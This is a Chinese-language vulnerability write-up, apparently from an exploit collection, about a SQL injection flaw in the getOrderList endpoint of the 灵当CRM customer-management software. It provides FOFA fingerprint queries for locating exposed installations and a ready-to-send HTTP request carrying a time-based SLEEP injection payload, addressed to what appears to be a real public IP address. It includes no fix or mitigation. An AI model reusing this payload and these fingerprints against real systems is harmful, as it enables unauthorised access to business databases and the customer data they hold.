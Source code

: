 # 灵当crm getOrderList存在SQL注入漏洞

# 一、漏洞简介
<font style="color:rgb(51, 51, 51);">灵当CRM（Customer Relationship Management，客户关系管理）是一款面向中小企业的客户关系管理软件，旨在帮助企业更好地管理客户信息、销售流程、市场营销和服务支持等方面的工作。灵当CRM提供了一系列工具和功能，帮助企业在销售、市场和服务部门之间实现高效协作，提高客户满意度和业务效率。灵当CRM客户管理系getOrderList存在SQL注入漏洞。</font>

# 二、影响版本
+ 灵当crm

# 三、资产测绘
+ fofa`body="[http://localhost:8088/crm/index.php"](http://localhost:8088/crm/index.php") && body="ldcrm.base.js"` `<font style="color:rgb(51, 51, 51);">body="crmcommon/js/jquery/jquery-1.10.1.min.js"</font>`
+ 特征

![1722999861305-1e9e41ad-ed6a-4750-918d-61a0631ad06a.png](./img/HIaLS568Ua4tqtpX/1722999861305-1e9e41ad-ed6a-4750-918d-61a0631ad06a-553408.png)

# 四、漏洞复现
```java
GET /crm/WeiXinApp/marketing/index.php?module=WxOrder&action=getOrderList&crm_user_id=11%20AND%20(SELECT%209552%20FROM%20(SELECT(SLEEP(1)))fiAG) HTTP/1.1
Host: 120.79.185.144:85
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Ldwk: bG91ZG9uZ3dlbmt1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
```

![1726734714363-2bcde573-1379-4233-b74e-f18ee0a65373.png](./img/HIaLS568Ua4tqtpX/1726734714363-2bcde573-1379-4233-b74e-f18ee0a65373-855630.png)

```java
GET /crm/WeiXinApp/marketing/index.php?module=WxOrder&action=getOrderList&crm_user_id=1 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Ldwk: bG91ZG9uZ3dlbmt1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
```

![1726734781470-32269f52-de00-4e64-b137-09ff307ffdb3.png](./img/HIaLS568Ua4tqtpX/1726734781470-32269f52-de00-4e64-b137-09ff307ffdb3-547283.png)



> 更新: 2024-10-21 11:49:38  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/kuce46edah7b3gg3>